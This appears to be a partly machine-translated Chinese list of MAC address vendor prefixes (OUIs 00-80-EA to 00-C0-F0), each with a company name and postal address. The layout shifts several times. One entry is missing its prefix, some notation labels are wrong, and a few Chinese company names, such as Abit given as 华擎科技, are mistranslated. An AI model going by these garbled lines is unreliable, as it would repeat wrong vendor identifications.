法恩汉姆，萨里，GU9 9NN
英国

**The Fiber Company（光纤公司）**
00-80-EA (十六进制)
0080EA (基数 16)

克利夫顿科技中心
克利夫顿门
约克 YO3 8XF
英国

**九州松下电气株式会社**
00-80-F0 (十六进制)
0080F0 (基数 16)

商务设备事业部
福冈市博多区美野岛四丁目 1-62
福冈市博多区，812
日本

**Sun Electronics Corp.（太阳电子公司）**
00-80-F3 (十六进制)
0080F3 (基数 16)

爱知县江南市旭甲子之町 250
爱知县江南市
483 日本

**Telemecanique Electrique（施耐德电气自动化）**
00-80-F4 (十六进制)
0080F4 (基数 16)

让·乔弗将军大道 33 号之二
92002 南泰尔瑟克斯
法国

**Quantel Ltd（昆特尔有限公司）**
00-80-F5 (十六进制)
0080F5 (基数 16)

梨树巷
纽伯里，伯克郡. RG13 2LT
英国

**BVM Limited（BVM 有限公司）**
00-80-FB (十六进制)
0080FB (基数 16)

弗兰德路
赫吉恩
南安普顿
英国

**Azure Technologies, Inc.（蔚蓝科技公司）**
00-80-FE (十六进制)
0080FE (基数 16)

南街 63 号
霍普金顿，马萨诸塞州 01748-2212

**Lanoptics, Ltd.（兰奥普蒂克斯有限公司）**
00-C0-00 (十六进制)
00C000 (基数 16)

邮政信箱 184
米格达尔海-埃梅克
以色列，10551


## Diitek 患者管理
00-C0-01 (十六进制)
00C001 (基数 16)

Systems, Inc.
5720 Oberlin Drive
San Diego, CA 92121-1723

## Sercomm 公司
00-C0-02 (十六进制)
00C002 (基数 16)

420 Fu Hsin North Road, 5th Fl
Taipei
Taiwan, R.O.C.

## Globalnet 通信
00-C0-03 (十六进制)
00C003 (基数 16)

912, Place Trans Canada
Longueuil, QC
Canada J4G 2M1

## Japan Business Computer Co.Ltd
00-C0-04 (十六进制)
00C004 (基数 16)

1368 Futoo-Cho, Kohoku-Ku
Yokohama City
222 Japan

## Livingston Enterprises, Inc.
00-C0-05 (十六进制)
00C005 (基数 16)

6920 Koll Center Parkway, #220
Pleasanton, CA 94566

## Nippon Avionics Co., Ltd.
00-C0-06 (十六进制)
00C006 (基数 16)

工业系统部门
28-2, Hongoh 2-Chome, Seya-Ku
Yokohama
Japan

## Pinnacle Data Systems, Inc.
00-C0-07 (十六进制)
00C007 (基数 16)

1350 West Fifth Avenue
Columbus, OH 43212

## Seco SRL
00-C0-08 (十六进制)
00C008 (基数 16)

Via Calamandrei 91
52100 Arezzo
Italy

## KT Technology (S) Pte Ltd
00-C0-09 (十六进制)
00C009 (基数 16)

Kt Building
100 E Pasir Panjang Road
Singapore 0511

## Micro Craft
00-C0-0A (十六进制)
00C00A (基数 16)

2-4-3 Nishifurumatsu
Okayama City
Okayama Pref. 700
Japan

## Norcontrol A.S.
00-C0-0B (十六进制)
00C00B (基数 16)

P.O. Box 1024
N-3194 Horten
Norway

## Advanced Logic Research, Inc.
00-C0-0D (十六进制)
00C00D (基数 16)

9401 Jeronimo
Irvine, CA 92718

## Psitech, Inc.
00-C0-0E (十六进制)
00C00E (基数 16)

18368 Bandlier Circle
Fountain Valley, CA 92708

## Quantum Sofiware Systems Ltd.
00-C0-0F (十六进制)
00C00F (基数 16)

175 Terrence Matthews Crescent
Kanata, Ontario
Canada
K2L 3T5

## Interactive Computing Devices
00-C0-11 (十六进制)
00C011 (基数 16)

1735 Technology Drive·Ste #720
San Jose, CA 95110

## Netspan Corporation
00-C0-12 (十六进制)
00C012 (基数 16)

1701 N. Greenville Ave.
Suite 1117
Richardson, TX 75081

## Netrix
00-C0-13 (十六进制)
00C013 (基数 16)

13595 Dulles Technology Drive
Herndon, VA 22071

## Telematics Calabasas Int'l, Inc
00-C0-14 (十六进制)
00C014 (基数 16)

26630 Agoura Road
Calabasas, CA 91302-1988

## New Media Corporation
00-C0-15 (十六进制)
00C015 (基数 16)

15375 Barranca Parkway
Building “B-101”
Irvine, CA 92718

## Electronic Theatre Controls
00-C0-16 (十六进制)
00C016 (基数 16)

3030 Laura Lane
Middleton, WI 53562

## Lanart Corporation
00-C0-18 (十六进制)
00C018 (基数 16)

145 Rosemary Street
Needham, MA 02194

## Leap Technology, Inc.
00-C0-19 (十六进制)
00C019 (基数 16)

20 B Street
Burlington, MA 01803

## Corometrics Medical Systems
00-C0-1A (十六进制)
00C01A (基数 16)

61 Barnes Park Road North
Wallingford, CT 06492-0333

## Socket Communications, Inc.
00-C0-1B (十六进制)
00C01B (基数 16)

2823 Whipple Rd.
Union City, CA 94587

## Interlink Communications Ltd.
00-C0-1C (十六进制)
00C01C (基数 16)

Brunel Road,
Gorse Lane Industrial Estate
Clacton-On-Sea, Essex CO15 4LU
United Kingdom

## Grand Junction Networks, Inc.
00-C0-1D (十六进制)
00C01D (基数 16)

3101 Whipple Rd., #27
Union City, CA 94587

## S.E.R.C.E.L.
00-C0-1F (十六进制)
00C01F (基数 16)

B.P. 439
44474 Carquefou
France

## RCO Electronic, Control Ltd.
00-C0-20 (十六进制)
00C020 (基数 16)

2750 North 29th Ave., Ste. 316
Hollywood, FL 33020

## Netexpress
00-C0-21 (十六进制)
00C021 (基数 16)

989 East Hillsdale Blvd. Suite 290
Foster City, CA 94404-2113

## Tutankhamon Electronics
00-C0-23 (十六进制)
00C023 (基数 16)

2446 Estand Way
Pleasant Hill, CA 94523

## Eden Sistemas De Computacao Sa
00-C0-24 (十六进制)
00C024 (基数 16)

Rua Do Ouvidor 121 5 Andar
Rio De Janeiro
Brazil

## Data Products Corporation
00-C0-25 (十六进制)
00C025 (基数 16)

6219 Desoto Avenue
Woodland Hills, CA 91365-0746

## Cipher Systems, Inc.
00-C0-27 (十六进制)
00C027 (基数 16)

P.O. Box 329
North Plains, OR 97133

## Jasco Corporation
00-C0-28 (十六进制)
00C028 (基数 16)

2967-5 Ishikawa-Cho, Hachioji-Shi
Tokyo 192
Japan

## Kabel Rheidt AG
00-C0-29 (十六进制)
00C029 (基数 16)

ABT. N52, Hr. Theissen
Bonnenbroicher Str. 2-14
4050 Moenchengladbach 2
Germany

## Ohkura Electric Co., Ltd.
00-C0-2A (十六进制)
00C02A (基数 16)

2-90-20 Shirako
Wako City
Saitama Pref 351-01
Japan

## Gerloff Gesel lschaft Fur
00-C0-2B (十六进制)
00C02B (基数 16)

Ele ktronische Systementwicklung
Fas anenweg 25
W-2000 Hamburg 73
Germany

## Centrum Communications, Inc.
00-C0-2C (十六进制)
00C02C (基数 16)

2880 Zanker Road, Ste. 108
San Jose, CA 95134

## Fuji Photo Film Co., Ltd.
00-C0-2D (十六进制)
00C02D (基数 16)

798 Miyano dai Kai sei- Machi
Ashigara-Kami-Gun
Kanagawa
Japan

## Netwiz
00-C0-2E (十六进制)
00C02E (基数 16)

26 Golomb Street
Haifa 33391
Israel

## Okuma Corporation
00-C0-2F (十六进制)
00C02F (基数 16)

Oguchi-Chio, Niwa-Gun
Aichi 480-01
Japan

## Integrated Engineering B. V.
00-C0-30 (十六进制)
00C030 (基数 16)

Ellermanstraat 15
1099 BW Amsterdam
The Netherlands

## Design Research Systems, Inc.
00-C0-31 (十六进制)
00C031 (基数 16)

925 E. Executive Park Dr. Suite A
Salt Lake City, UT 84117

## I-Cubed Limited
00-C0-32 (十六进制)
00C032 (基数 16)

Unit J1, The Poaddocks
347 Cherry Hinton Road
Cambridge CB1 4DH, United Kingdom

## Teledit Communications Aps
00-C0-33 (十六进制)
00C033 (基数 16)

Skanderborgvej 234
DK-8260 Viby
Denmark

## Dale Computer Corporation
00-C0-34 (十六进制)
00C034 (基数 16)

5840 Enterprise Drive
Lansing, MI 48911

## Quintar Company
00-C0-35 (十六进制)
00C035 (基数 16)

370 Amapola Ave., Ste.#106
Torrance, CA 90501

## Raytech Electronic Corp.
00-C0-36 (十六进制)
00C036 (基数 16)

2F, NO.6, Lane 497 Chung Cheng Rd
Hsin Tien City
Taipei Hsien
Taiwan R.O.C.

## Silicon Systems
00-C0-39 (十六进制)
00C039 (基数 16)

14351 Myford Road
Tustin, CA 92780

## Multiaccess Computing Corp.
00-C0-3B (十六进制)
00C03B (基数 16)

5350 Hollister Ave., Ste. C
Santa Barbara, CA 93111

## Tower Tech S.R.L.
00-C0-3C (十六进制)
00C03C (基数 16)

Via Ridoffi 6,8
56124 Pisa
Italy

## MITEC, Inc.
00-C0-4D (十六进制)
00C04D (基数 16)

Br-Kameido 1 Building
Z-33-1, Kameido, Koutou-Ku
Tokyo, 136
Japan

## Comtrol Corporation
00-C0-4E (十六进制)
00C04E (基数 16)

2675 Patton Road
St. Paul, MN 55113

## Toyo Denki Seizo K.K.
00-C0-50 (十六进制)
00C050 (基数 16)

4-6-32 Higashikashiwagaya
Ebinashi
Kanagawa, Japan 243-04

## Advanced Integration Research
00-C0-51 (十六进制)
00C051 (基数 16)

2188 Del Franco Street
San Jose, CA 95131

## Modular Computing Technologies
00-C0-55 (十六进制)
00C055 (基数 16)

2352 Main Street
Concord, MA 01742

## Somelec
00-C0-56 (十六进制)
00C056 (基数 16)

BP 7010 - 95050
Cergy Pontoise Cedex
France

## MYCO Electronics
00-C0-57 (十六进制)
00C057 (基数 16)

Musserongrand 1G
S-756 Uppsala
Sweden

## Dataexpert Corp.
00-C0-58 (十六进制)
00C058 (基数 16)

1156 Sonopra Courtn-Kang Rd.
Sunnyvale, CA 94086

## Nippondenso Co., Ltd.
00-C0-59 (十六进制)
00C059 (基数 16)

1-1 Showa-Cho
Kariya City Aichi
448 Japan

## Networks Northwest, Inc.
00-C0-5B (十六进制)
00C05B (基数 16)

P.O. Box 1188
Issaquah, WA 98027

## Eloex PLC
00-C0-5C (十六进制)
00C05C (基数 16)

2 Apsley Way
London, NW2 7HF
United Kingdom

## L&N Technologies
00-C0-5D (十六进制)
00C05D (基数 16)

2899 Agoura Road, #196
Westlake Village, CA 91361-3200

## Vari-Lite, Inc.
00-C0-5E (十六进制)
00C05E (基数 16)

201 Regal Row
Dallas, TX 75247

## Id Scandinavia AS
00-C0-60 (十六进制)
00C060 (基数 16)

P.O. Box 4227
N-5028 Bergen
Norway

## Solectek Corporation
00-C0-61 (十六进制)
00C061 (基数 16)

6370 Nancy Ridge Dr., Ste. 109
San Diego, CA 92121

## Morning Star Technologies, Inc
00-C0-63 (十六进制)
00C063 (基数 16)

1760 Zöllinger Road
Columbus, OH 43221

## General Datacomm Ind. Inc.
00-C0-64 (十六进制)
00C064 (基数 16)

Park Road Extension
P.O. Box 1299
Middlebury, CT 06762

## Scope Communications, Inc.
00-C0-65 (十六进制)
00C065 (基数 16)

100 Otis Street
Northboro, MA 01532

## Docupoint, Inc.
00-C0-66 (十六进制)
00C066 (基数 16)

2701 Bayview Drive
Fremont, CA 94538

## United Barcode Industries
00-C0-67 (十六进制)
00C067 (基数 16)

12240 Indian Creek Court
Beltsville, MD 20705

## Philip Drake Electronics Ltd.
00-C0-68 (十六进制)
00C068 (基数 16)

The Hydwewy
Welwyn Garden City
Herts. AL7 3UQ,
United Kingdom

## California Microwave, Inc.
00-C0-69 (十六进制)
00C069 (基数 16)

985 Almaron Ave.
Sunnyvale, CA 94086

## Zahner-Elektrik GMBH & CO. KG
00-C0-6A (十六进制)
00C06A (基数 16)

P.O. Box 1846
Thueringer Strasse 12
DW-8640 Kronach-Gundelsdorf
Germany

## OSI Plus Corporation
00-C0-6B (十六进制)
00C06B (基数 16)

2-1-23 Nakameguro
Meguro-Ku, Tokyo153
Japan

## SVEC Computer Corp.
00-C0-6C (十六进制)
00C06C (基数 16)

3F, 531-1 Chung Cheng Rd.
Hsin-Tien City, Taipei
Taiwan, R.O.C.

## BOCA Research, Inc.
00-C0-6D (十六进制)
00C06D (基数 16)

6401 Congress Avenue
Boca Raton, FL 33487

## Komatsu Ltd.
2597 Shinomiya Hiratsuka-Shi


Kanagawa 254  
日本  

Sectra Secure-Transmision AB  
00-C0-70（十六进制）  
00C070（十六进制）  

Teknikringen 2  
S-583 30 林雪平  
瑞典  

Areanex Communications, Inc.  
00-C0-71（十六进制）  
00C071（十六进制）  

3333 Octavius Drive, Unit C  
Santa Clara, CA 95051  

KNX Ltd.  
00-C0-72（十六进制）  
00C072（十六进制）  

Hollingwood House  
West Chevin Road  
Otley, West Yorkshire  
LS21 3HA 英国  

Xedia Corporation  
00-C0-73（十六进制）  
00C073（十六进制）  

301 Ballardvale Street  
Wilmington, MA 01887  

丰田自动织机株式会社  
00-C0-74（十六进制）  
00C074（十六进制）  

2-1, Toyoda-Cho, Kariya-Shi  
Aichi-Ken  
448 日本  

Xante Corporation  
00-C0-75（十六进制）  
00C075（十六进制）  

2559 Emogene Street  
Mobile, AL 36606  

I-Data International A-S  
00-C0-76（十六进制）  
00C076（十六进制）  

35-43 Vadstrupvej  
DK-2880 Bagsvaerd  
丹麦  

大宇电信有限公司  
00-C0-77（十六进制）  
00C077（十六进制）  

产品设计部 1  
产品发展中心  
Socho, P.O. Box 187  
Seoul, 韩国  

Computer Systems Engineering  
00-C0-78（十六进制）  
00C078（十六进制）  

46791 Fremont Blvd.  
Fremont, CA 94538  

Fonsys Co., Ltd.  
00-C0-79（十六进制）  
00C079（十六进制）  

209-5, Yangjae, Seocho  
Seoul A37130  
韩国  

Priva B.V.  
00-C0-7A（十六进制）  
00C07A（十六进制）  

P.O. Box 18  
2678ZG De Lier (Z-H)  
荷兰  

Risc Developments Ltd.  
00-C0-7D（十六进制）  
00C07D（十六进制）  

117 Hatfield Road  
St. Albans, Herts AL14J5  
英国  

Nupon Computing Corp.  
00-C0-7F（十六进制）  
00C07F（十六进制）  

1391 Warner Ave., Suite A  
Tustin, CA 92680  

Netstar, Inc.  
00-C0-80（十六进制）  
00C080（十六进制）  

Cedar Business Center  
1801 E. 79th Street  
Minneapolis, MN 55425-1235  

Metodata Ltd.  
00-C0-81（十六进制）  
00C081（十六进制）  

Albion House  
Station Road  
Hampton TW12 2DY  
英国  

Moore Products Co.  
00-C0-82（十六进制）  
00C082（十六进制）  

Sumneytown Pike  
Spring House, PA 19477  

Data Link Corp. Ltd.  
00-C0-84（十六进制）  
00C084（十六进制）  

3-15-3 Midoricho  
Tokorozawa City  
Saitama 359  
日本  

The Lynk Corporation  
00-C0-86（十六进制）  
00C086（十六进制）  

101 Queens Drive  
King Of Prussia, PA 19406  

Unet Technologies, Inc.  
00-C0-87（十六进制）  
00C087（十六进制）  

3110 Fairview Park Dr., #570  
Falls Church, VA 22042  

Telindus Distribution  
00-C0-89（十六进制）  
00C089（十六进制）  

Geldenaaksebaan 335  
3001 Heverlee  
比利时  

Lauterbach Datentechnik GMBH  
00-C0-8A（十六进制）  
00C08A（十六进制）  

Fichenstr. 27  
D-8011 Hofolding  
德国  

Riq Modular Systems, Inc.  
00-C0-8B（十六进制）  
00C08B（十六进制）  

39899 Balentine Drive, Ste. 375  
Newark, CA 94560  

Performance Technologies, Inc.  
00-C0-8C（十六进制）  
00C08C（十六进制）  

315 Science Parkway  
Rochester, NY 14620  

Tronix Product Development  
00-C0-8D（十六进制）  
00C08D（十六进制）  

4908 E. Mcdowell Rd. Ste. 100  
Phoenix, AZ 85008  

Network Information Technology  
00-C0-8E（十六进制）  
00C08E（十六进制）  

10430 S. De Anza Blvd.  
Cupertino, CA 95014  

松下电器工业株式会社  
00-C0-8F（十六进制）  
00C08F（十六进制）  

1048 Kadoma, Kadoma-Si  
Osaka 571,  
日本  

Praise S.R.L.  
00-C0-90（十六进制）  
00C090（十六进制）  

Via Maccaani, 169  
38100 Trento (TN)  
意大利  

Jabil Circuit, Inc.  
00-C0-91（十六进制）  
00C091（十六进制）  

32275 Mally Road  
Madison Heights, MI 48071  

Mennen Medical Inc.  
00-C0-92（十六进制）  
00C092（十六进制）  

10123 Main Street  
Clarence, NY 14031-2095  

Alta Research Corp.  
00-C0-93（十六进制）  
00C093（十六进制）  

614 South Federal Highway  
Deerfield Beach, FL 33441  

村田株式会社  
00-C0-96（十六进制）  
00C096（十六进制）  

通信系统部  
19-43 Higashi Oizumi 1 Chome  
Nerima-Ku, Tokyo 178  
日本  

Archipel SA  
00-C0-97（十六进制）  
00C097（十六进制）  

1 Rue Du Bulloz  
F 74940 Annecy-Le-Vieux  
法国  

Chunex Electronic Co., Ltd.  
00-C0-98（十六进制）  
00C098（十六进制）  

6F., No.2, Alley 6, Lane 235  
Pao Chiao Rd.,  
Hsin Tien, Taipei Hsien  
Taiwan, R.O.C.  

Yoshiki Industrial Co., Ltd.  
00-C0-99（十六进制）  
00C099（十六进制）  

1-38 Matsugasaki 2, Chome  
Yonezawa Yamagata  
992 日本  

Reliance COMM/TEC, R-TEC Systems Inc.  
00-C0-9B（十六进制）  
00C09B（十六进制）  

2100 Reliance Parkway, MS 22  
Bedford, TX 76021  

TOA Electronics Ltd.  
00-C0-9C（十六进制）  
00C09C（十六进制）  

613 Kitairiso Sayama  
Saitama, Pref 350-13 日本  

Distributed Systems Int'l, Inc  
00-C0-9D（十六进制）  
00C09D（十六进制）  

531 West Roosevelt Rd, Ste 2  
Wheaton, IL 60187  

Quanta Computer, Inc.  
00-C0-9F（十六进制）  
00C09F（十六进制）  

116, Hou-Kang St., 7F  
Shih-Lin Dist.  
Taipei  
Taiwan, R.O.C.  

Advance Micro Research, Inc.  
00-C0-A0（十六进制）  
00C0A0（十六进制）  

2045 Corporate Court  
San Jose, CA 95131  

Tokyo Denshi Sekie Co.  
00-C0-A1（十六进制）  
00C0A1（十六进制）  

255-1 Renkoji, Tama-Shi  
Tokyo  
Japan 206  

Intermedium A/S  
00-C0-A2（十六进制）  
00C0A2（十六进制）  

Odinsvej 19  
DK-2600 Glostrup  
丹麦  

Dual Enterprises Corporation  
00-C0-A3（十六进制）  
00C0A3（十六进制）  

48 Nan-Kang Road, 9th Floor  
Sec.3, Taipei  
Taiwan, R.O.C.  

Unigraf Oy  
00-C0-A4（十六进制）  
00C0A4（十六进制）  

Ruukintie 18  
02320 ESP00  
芬兰  

Seel Ltd.  
00-C0-A7（十六进制）  
00C0A7（十六进制）  

3 Young Square  
Livingstone H549BJ  
苏格兰  

GVC Corporation  
00-C0-A8（十六进制）  
00C0A8（十六进制）  

1961 Concourse Drive-Ste “B”  
San Jose, CA 95131  

Barron Mccann Ltd.  
00-C0-A9（十六进制）  
00C0A9（十六进制）  

Bemac House  
Fifth Avenue, Letchworth  
Herts, SG6 2HF  
英国  

Silicon Valley Computer  
00-C0-AA（十六进制）  
00C0AA（十六进制）  

441 N. Whisman Rd., Bldg. 13  
Mt. View, CA 94043  

Jupiter Technology, Inc.  
00-C0-AB（十六进制）  
00C0AB（十六进制）  

78 Fourth Avenue  
Waltham, MA 02154  

Gambit Computer Communications  
00-C0-AC（十六进制）  
00C0AC（十六进制）  

Solram Industrial Park  
P.O. Box 107 Yokneam 20692  
以色列  

Marben Communication Systems  
00-C0-AD（十六进制）  
00C0AD（十六进制）  

1 Rue Du Bois Chalant  
Lisses  
91029 Evry Cedex  
法国  

Towecom Co. Inc.  
00-C0-AE（十六进制）  
00C0AE（十六进制）  

DBA PC House  
841 E. Artesia Blvd.  
Carson, CA 90746  

Teklogix Inc.  
00-C0-AF（十六进制）  
00C0AF（十六进制）  

1331 Crestlawn Drive  
Mississauga, Ontario,  
Canada L4W 2P9  

Gcc Technologies, Inc.  
00-C0-B0（十六进制）  
00C0B0（十六进制）  

580 Winter Street  
Waltham, MA 02154  

Norand Corporation  
00-C0-B2（十六进制）  
00C0B2（十六进制）  

550 2nd Street SE  
Cedar Rapids, IA 52401  

Comstat Datacomm Corporation  
00-C0-B3（十六进制）  
00C0B3（十六进制）  

1720 Spectrum Drive  
Lawrenceville, GA 30243  

Myson Technology, Inc.  
00-C0-B4（十六进制）  
00C0B4（十六进制）  

2f, No. 3, Industry R. Ed.IV  
Science-Based Industrial Park  
Hsinchu, (R.O.C.)  
Taiwan  

Corporate Network Systems, Inc.  
00-C0-B5（十六进制）  
00C0B5（十六进制）  

5711 Six Forks Road—Ste #306  
Raleigh, NC 27609  

Meridian Data, Inc.  
00-C0-B6（十六进制）  
00C0B6（十六进制）  

5615 Scotts Valley Drive  
Scotts Valley, CA 95066  

American Power Conversion Corp  
00-C0-B7（十六进制）  
00C0B7（十六进制）  

267 Boston Road #2  
North Billerica, MA 01862  

Fraser’s Hill Ltd.  
00-C0-B8（十六进制）  
00C0B8（十六进制）  

27502 W. Gill Road  
P.O. Box 189  
Morristown, AZ 85342  

Funk Software, Inc.  
00-C0-B9（十六进制）  
00C0B9（十六进制）  

222 Third Street  
Cambridge, MA 02142  

Netvantage  
00-C0-BA（十六进制）  
00C0BA（十六进制）  

1800 Stewart Street  
Santa Monica, CA 90404  

Forval Creative, Inc.  
00-C0-BB（十六进制）  
00C0BB（十六进制）  

3-27-12 Hongo  
Bunkyo-Ku  
Tokyo 113  
Japan  

Inex Technologies, Inc.  
00-C0-BD（十六进制）  
00C0BD（十六进制）  

3350 Scott Blvd.  
Bldg.#29  
Santa Clara, CA 95054  

Alcatel – Sel  
00-C0-BE（十六进制）  
00C0BE（十六进制）  

Lorenz Str.  
7000 Stuttgart 40  
德国  

Technology Concepts, Ltd.  
00-C0-BF（十六进制）  
00C0BF（十六进制）  

Grange Estate  
Cwmbran, Gwent, NP44 3XR  
United Kingdom  

Shore Microsystems, Inc.  
00-C0-C0（十六进制）  
00C0C0（十六进制）  

23 Pocahontas Avenue  
Oceanport, NJ 07757  

Quad/Graphics, Inc.  
00-C0-C1（十六进制）  
00C0C1（十六进制）  

N63 W23075 HWY 74  
Sussex, WI 53089  

Infinite Networks Ltd.  
00-C0-C2（十六进制）  
00C0C2（十六进制）  

19 Brookside Road, Oxhey  
Watford, Herts WD1 4BW  
United Kingdom  

Acuson Computed Sonography  
00-C0-C3（十六进制）  
00C0C3（十六进制）  

1220 Charleston Road  
P.O. Box 7393  
Mountain View, CA 94039-7393  

Computer Operational Requirement Analysts Ltd.  
00-C0-C4（十六进制）  
00C0C4（十六进制）  

Coral House, 274A High Street  
Aldershot, Hampshire  
GU12 4LZ, United Kingdom  

SID Informatica  
00-C0-C5（十六进制）  
00C0C5（十六进制）  

Rua Dr. Geraldo Campos Moreira  
240 - 5 Andar CEP 04571-020  
Sao Paulo-SP  
Brazil  

Personal Media Corp.  
00-C0-C6（十六进制）  
00C0C6（十六进制）  

1-7-7 MY Bldg. Hirasuka  
Shinagawa, Tokyo 142  
Japan  

Micro Byte PTY. LTD.  
00-C0-C8（十六进制）  
00C0C8（十六进制）  

197 Sherbourne Rd.  
Montmorency  
Melbourne VIC  
Australia 3094  

Bailey Controls Co.  
00-C0-C9（十六进制）  
00C0C9（十六进制）  

29801 Euclid Avenue  
M8-2F8  
Wickliffe, OH 44092  

ALFA, INC.  
00-C0-CA（十六进制）  
00C0CA（十六进制）  

11-1, Industry East Road IV  
Science Based Industrial Park  
Hsinchu  
Taiwan  


## 控制技术公司（Control Technology Corporation）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 控制技术公司（Control Technology Corporation） | 00-C0-CB | 00C0CB | 25 South Street<br>马萨诸塞州 Hopkinton, 01748 |
| COMELTA, S.A. | 00-C0-CD | 00C0CD | AVDA. Parc Tecnologic, 4<br>08290 Cerdanyola Del Valles<br>Barcelona<br>西班牙 |
| Ratoc 系统公司（Ratoc System Inc.） | 00-C0-D0 | 00C0D0 | Asahi Namba Bldg.<br>1-6-14 Shikitsuji Higashi<br>大阪府 Naniwaku 市<br>日本 556 |
| Comtree 科技公司（Comtree Technology Corporation） | 00-C0-D1 | 00C0D1 | 5F-7, NO. 1, Fu-Hsing North Rd<br>台北<br>台湾，中华民国 |
| Syntellect, Inc. | 00-C0-D2 | 00C0D2 | 15810 N. 28th Avenue<br>亚利桑那州 Phoenix, 85023 |
| Axon 网络公司（Axon Networks, Inc.） | 00-C0-D4 | 00C0D4 | 104 Spruce Street<br>马萨诸塞州 Watertown, 02172 |
| Quancom Electronic GMBH | 00-C0-D5 | 00C0D5 | Heinrich-Esser-Strasse 27<br>W-5040 Bruhl<br>德国 |
| J1 系统公司（J1 Systems, Inc.） | 00-C0-D6 | 00C0D6 | 3 Dunwoody Park-Ste.#103<br>佐治亚州 Atlanta, 30338 |
| Quinte 网络保密设备公司（Quinte Network Confidentiality Equipment Inc.） | 00-C0-D9 | 00C0D9 | 207 - 121 Dimdas Street East<br>安大略省 Belleville<br>加拿大, K8N 1C3 |
| Ipc 公司（私人）有限公司（Ipc Corporation (Pte) Ltd.） | 00-C0-DB | 00C0DB | 122 Eunos Ave., 7 #05-10<br>新加坡 1440 |
| EOS 科技公司（EOS Technologies, Inc.） | 00-C0-DC | 00C0DC | 3945 Freedom Circle, Ste. 770<br>加利福尼亚州 Santa Clara, 95054 |
| ZCOMM, INC. | 00-C0-DE | 00C0DE | 1050 C East Duane Avenue<br>加利福尼亚州 Sunnyvale, 94086 |
| KYE 系统公司（KYE Systems Corp.） | 00-C0-DF | 00C0DF | 11F, NO. 116, SEC. 2,<br>Nanking E. Rd.<br>台北<br>台湾，中华民国 |

## 索尼克解决方案（Sonic Solutions）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 索尼克解决方案（Sonic Solutions） | 00-C0-E1 | 00C0E1 | 1891 E. Francisco Blvd.<br>加利福尼亚州 San Rafael, 94901 |

## CALCOMP, INC.
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| CALCOMP, INC. | 00-C0-E2 | 00C0E2 | 2411 W. Lapalma Avenue<br>P.O. Box 3250, MS22<br>加利福尼亚州 Anaheim, 92803-3250 |

## 奥斯泰克通信公司（Ositech Communications, Inc.）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 奥斯泰克通信公司（Ositech Communications, Inc.） | 00-C0-E3 | 00C0E3 | 679 Southgate Drive<br>安大略省 Guelph<br>加拿大 N1G4S2 |

## 兰迪斯与格瑞电力公司（Landis & Gyr Powers, Inc.）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 兰迪斯与格瑞电力公司（Landis & Gyr Powers, Inc.） | 00-C0-E4 | 00C0E4 | 1000 Deerfield Parkway<br>伊利诺伊州 Buffalo Grove, 60089-4513 |

## Gespac, S.A
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| Gespac, S.A | 00-C0-E5 | 00C0E5 | Chemin Des Aux 18<br>瑞士 日内瓦 CH-1228 |

## Txport
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| Txport | 00-C0-E6 | 00C0E6 | 125 West Park Loop<br>阿拉巴马州 Huntsville, 35806 |

## 光纤数据 AB（Fiberdata AB）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 光纤数据 AB（Fiberdata AB） | 00-C0-E7 | 00C0E7 | P.O. Box 20095<br>瑞典 S-16102 Bromma |

## Plexcom, Inc.
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| Plexcom, Inc. | 00-C0-E8 | 00C0E8 | 65 Moreland Roadenaey<br>加利福尼亚州 Simi Valley, 93065 |

## 橡木解决方案有限公司（Oak Solutions, Ltd.）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 橡木解决方案有限公司（Oak Solutions, Ltd.） | 00-C0-E9 | 00C0E9 | Broadway House<br>149-151 St Neots Rd, Hardwick<br>英国 剑桥 CB3 7QJ |

## 阵列技术公司（Array Technology Ltd.）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 阵列技术公司（Array Technology Ltd.） | 00-C0-EA | 00C0EA | 145 Frimley Road<br>英国 萨里郡 Camberley GU15 2PS |

## SEH 计算机技术有限公司（SEH Computertechnik GMBH）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| SEH 计算机技术有限公司（SEH Computertechnik GMBH） | 00-C0-EB | 00C0EB | Sunderweg 4<br>P.O. Box 140829<br>德国 D-33628 Bielefeld |

## 海豚技术（Dauphin Technology）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 海豚技术（Dauphin Technology） | 00-C0-EC | 00C0EC | 450 Eisenhower Lane North<br>伊利诺伊州 Lombard, 60148 |

## 美国陆军电子（US Army Electronic）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 美国陆军电子（US Army Electronic） | 00-C0-ED | 00C0ED | Proving Ground<br>1838 Paseo San Luis<br>亚利桑那州 Sierra Vista, 85635 |

## 京瓷株式会社（Kyocera Corporation）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 京瓷株式会社（Kyocera Corporation） | 00-C0-EE | 00C0EE | 2-14-9 Tamagawadai<br>日本 东京都 Setagaya-Ku<br>158 |

## 华擎科技股份有限公司（Abit Corporation）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 华擎科技股份有限公司（Abit Corporation） | 00-C0-EF | 00C0EF | 29-11 Hirooka-Cho<br>日本 东京都 Hachiouji-Shi<br>192 |

## 金士顿科技公司（Kingston Technology Corp.）
| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
| 金士顿科技公司（Kingston Technology Corp.） | 00-C0-F0 | 00C0F0 | 17600 Newhope Street<br>加利福尼亚州 Fountain Valley, 92708 |

| MAC 地址 | 十六进制 | 基数 16 | 地址 |
| :--- | :--- | :--- | :--- |
